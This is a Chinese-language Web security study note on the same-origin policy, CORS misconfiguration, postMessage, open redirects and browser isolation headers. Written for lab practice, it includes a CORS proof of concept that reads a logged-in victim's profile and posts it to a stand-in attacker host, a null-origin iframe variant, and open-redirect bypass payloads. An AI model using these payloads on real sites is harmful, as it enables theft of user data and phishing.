


# 同源策略、CORS 与跨域安全详解

- 日期：2026-11-04
- 所属大纲阶段：第 3 阶段 Web 安全
- 参考资料：MDN（Same-origin policy / CORS）、WHATWG Fetch 规范（CORS 部分）、PortSwigger Academy（CORS 模块）、web.dev（COOP/CORP 专题）
- 前置阅读：[01-Web前端常见漏洞与攻击](01-Web前端常见漏洞与攻击.md)
- 说明：示例仅限本地靶场。

---

## 1. 同源策略（SOP, Same-Origin Policy）深入

### 1.1 Origin 的精确定义


三者完全一致才是同源。`http://example.com` 与 `https://example.com` 不同源（协议不同）；`example.com` 与 `api.example.com` 不同源（域名不同）；默认端口 443 与显式 `:443` 视为相同。

### 1.2 SOP 管什么、不管什么（关键认知）

| 行为 | SOP 是否拦截 |
|---|---|
| 跨源**读取**响应（fetch/XHR 读 body） | ✅ 拦截 |
| 跨源**发送**请求 | ❌ 不拦（请求照常到达服务器，CSRF 由此而来） |
| 跨源**嵌入**资源（img/script/iframe 加载） | ❌ 不拦 |
| 嵌入后读取内容（`iframe.contentDocument`、img 像素） | ✅ 拦截（img 画布污染 canvas taint 除外） |
| `window.open` 打开跨源窗口后读 `location`/DOM | ✅ 拦截（但可 `postMessage`） |

一句话：**SOP 限制「读」，不限制「发」与「载」**。所有跨域漏洞都在这个边界上做文章：
- CSRF：利用「能发不能读」；
- XSS：注入后变同源，直接读；
- CORS 错配：把「不能读」错误地放开。

### 1.3 特殊 origin

- `null`：沙箱 iframe（`sandbox` 属性）、`data:` URL、重定向链中的页面 → origin 为字符串 `"null"`。任何站点都能产生 `null` origin，因此 **ACAO 放行 `null` 等于放行所有沙箱 iframe**。
- `about:blank` / `javascript:`：继承打开者的 origin（调试时容易误判）。

---

## 2. CORS（Cross-Origin Resource Sharing）机制详解

### 2.1 设计意图

CORS 是 SOP 的**受控豁免通道**：服务器通过响应头声明「允许哪个源读我的响应」。它不是漏洞，错配才是漏洞。

### 2.2 简单请求 vs 预检请求

**简单请求**（不触发预检）需同时满足：方法为 GET/HEAD/POST，且首部仅限 `Accept`/`Accept-Language`/`Content-Language`/`Content-Type`（且 Content-Type 只能是 `text/plain`、`multipart/form-data`、`application/x-www-form-urlencoded`）。



**预检请求（Preflight）**：非简单请求（自定义头、PUT/DELETE/PATCH、JSON Content-Type）先由浏览器自动发 `OPTIONS`：

```
OPTIONS /api/data
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization, content-type

服务器必须回：
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: PUT, POST
Access-Control-Allow-Headers: authorization, content-type
Access-Control-Max-Age: 600        # 预检结果缓存 10 分钟
```
预检失败则真实请求根本不发。**预检是浏览器行为，curl/攻击脚本永远不发预检**——所以「预检」不能当身份验证用。

### 2.3 凭证模式

`fetch(..., { credentials: 'include' })` 或 XHR `withCredentials = true` 时：
- 响应必须 `Access-Control-Allow-Credentials: true` 且 **ACAO 必须是具体源**（规范禁止 `*` 与凭证同用）；
- Cookie/HTTP 认证头才会跨源携带并可读响应。

---

## 3. CORS 错误配置与利用详解

### 3.1 四类高危配置

```http
# ① 反射任意 Origin + 凭证（最常见：中间件「聪明」地回写请求 Origin）
Access-Control-Allow-Origin: https://evil.example
Access-Control-Allow-Credentials: true

# ② 白名单前缀/后缀匹配缺陷
后端逻辑 origin.endsWith("example.com")
→ 攻击者注册 https://evilexample.com 或 https://example.com.attacker.io
后端逻辑 origin.startsWith("https://example.com")
→ https://example.com.evil.io 放行

# ③ null 放行
Access-Control-Allow-Origin: null
→ 沙箱 iframe <iframe sandbox="allow-scripts" src="https://evil/page">，其内 fetch origin 为 null

# ④ 通配符 + 某些非凭证数据仍然敏感
Access-Control-Allow-Origin: *
→ 无凭证下，任何站点可读公开接口；若接口本身含私有数据（内网 API、无鉴权接口）即泄露
```

### 3.2 利用 PoC（靶场演示）

```html
<!-- 挂在攻击者域下，窃取受害者已登录站点的数据 -->
<script>
fetch('https://api.target.example/user/profile', {
  credentials: 'include'   // 受害者浏览器自动带 Cookie
})
.then(r => r.json())
.then(d => fetch('//attacker.example/steal', {   // 危害闭环：数据外带
  method: 'POST', body: JSON.stringify(d)
}));
</script>
```

null origin 版：

```html
<iframe sandbox="allow-scripts" src="https://evil.example/nullpoc.html"></iframe>
<!-- nullpoc.html 内容：上述 fetch。沙箱内页面 origin 为字符串 "null" -->
```

### 3.3 与内网结合

浏览器是「内网居民的浏览器」。攻击页可让受害者浏览器访问 `http://内网IP:端口` 的接口（内网应用常无认证、CORS 全开），借受害者之手读取内网数据（与 SSRF 的浏览器版——CSRF/跨域读取型内网探测）。

---

## 4. postMessage 与跨窗口通信安全

### 4.1 机制

```js
// 发送方
targetWin.postMessage(data, targetOrigin);   // targetOrigin 应为具体源；'*' 表示不关心
// 接收方
window.addEventListener('message', (e) => {
  // e.origin —— 发送方 origin；e.data —— 数据；e.source —— 发送方 window 引用
});
```

### 4.2 两类漏洞

| 漏洞 | 代码特征 | 利用 |
|---|---|---|
| 接收方不校验 origin | `addEventListener('message', e => sink(e.data))` | 任意恶意页 iframe 该页面并发消息，注入数据进 sink（可链接成 DOM XSS） |
| 发送方用 `'*'` 且数据敏感 | `win.postMessage(token, '*')` | 恶意页面可注册为消息接收方（如通过 `window.open` 拿引用），截获敏感数据 |

### 4.3 防御

```js
// 接收方：先验源再用数据
window.addEventListener('message', (e) => {
  if (e.origin !== 'https://trusted.example') return;
  handle(e.data);
});
// 发送方：指定确切目标源
win.postMessage(data, 'https://partner.example');
```

---

## 5. 开放重定向利用链详解

```
GET /login?next=/dashboard            # 正常
GET /login?next=//evil.example        # 302 跳到攻击者站（协议相对 URL）
GET /login?next=https:evil.example    # 冒号技巧
GET /login?next=/%2f%2fevil.example   # 编码绕过
GET /login?next=//evil.example\@trusted  # 反斜杠混淆（浏览器纠错差异）
```

危害链条：
1. **钓鱼**：`https://bank.example/login?next=//bank-secure.example` —— 前缀可信。
2. **OAuth 回调劫持**：`redirect_uri=https://app.example/redirect?next=//evil.example`（授权服务器只校验前缀时，code 经 302 二跳落入攻击者站）。
3. **绕过 origin 白名单**：CORS/信任链基于「重定向前的域」判断，302 后即脱离。

防御：目标白名单精确匹配 host + path 前缀；`next` 只接受相对路径并规范化（`/` 开头、拒绝 `//` 与 `/\`）。

---

## 6. 现代隔离头（COOP/CORP/COEP）——浏览器隔离体系

| 头 | 作用 |
|---|---|
| `Cross-Origin-Opener-Policy: same-origin` | 阻断跨源窗口 opener 引用（防 tabnabbing 反向钓鱼、Spectre 类侧信道辅助） |
| `Cross-Origin-Resource-Policy: same-origin` | 声明本资源**不允许**被跨源页面嵌入（防 Spectre 型逐字节读取、内网资源被外域 img 加载） |
| `Cross-Origin-Embedder-Policy: require-corp` | 本页面只加载声明了 CORP 的跨源资源 |

安全基线建议全站加上 COOP/CORP，与 CSP、HSTS 组成完整的响应头防线。

---

## 7. 常见误区

- ❌「CORS 是安全功能，开了就安全」→ CORS 是**放行**机制，开错方向等于开门。
- ❌「ACAO 我配了 `*`，反正有登录」→ 带凭证时规范强制具体源；`*` + `credentials:true` 组合浏览器会直接判失败（但无凭证敏感接口照样泄露）。
- ❌「预检 OPTIONS 都过了说明是可信来源」→ 预检只是浏览器约定，非浏览器客户端随便伪造。
- ❌「JSONP 无所谓」→ JSONP 本质是放弃 SOP 的读取限制的历史方案，任何回调可控的 JSONP 端点都是全站读取通道（也是 CSP `script-src 'self'` 的绕过原料）。
- ❌「内网接口不鉴权没关系，反正外面访问不到」→ 受害者浏览器就在内网（见 3.3）。

---

## 复习自查

- [ ] 能默写 SOP「拦读不拦发载」的三行结论
- [ ] 能判断给定请求是否会触发预检
- [ ] 能针对 4 类 CORS 错配各写一个利用 PoC
- [ ] 能写出 postMessage 收发双方的安全代码
- [ ] 能说出 COOP/CORP/COEP 各自解决什么问题

## 延伸实验（labs 计划）

1. PortSwigger Academy：CORS 模块（反射 Origin、null origin、白名单绕过）。
2. 自建 demo：Express CORS 中间件配置 5 种错误姿势 → 恶意页逐个利用 → 修复。
3. 浏览器实验：DevTools 观察简单请求与预检的完整报文交互。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 归档笔记 · 「1.1 Origin 的精确定义」节 · URL 组成解剖（协议/域名/端口注解） | flowchart LR |
| 归档笔记 · 「2.2 简单请求 vs 预检请求」节 · CORS 简单请求流程（含两种结局） | sequenceDiagram |
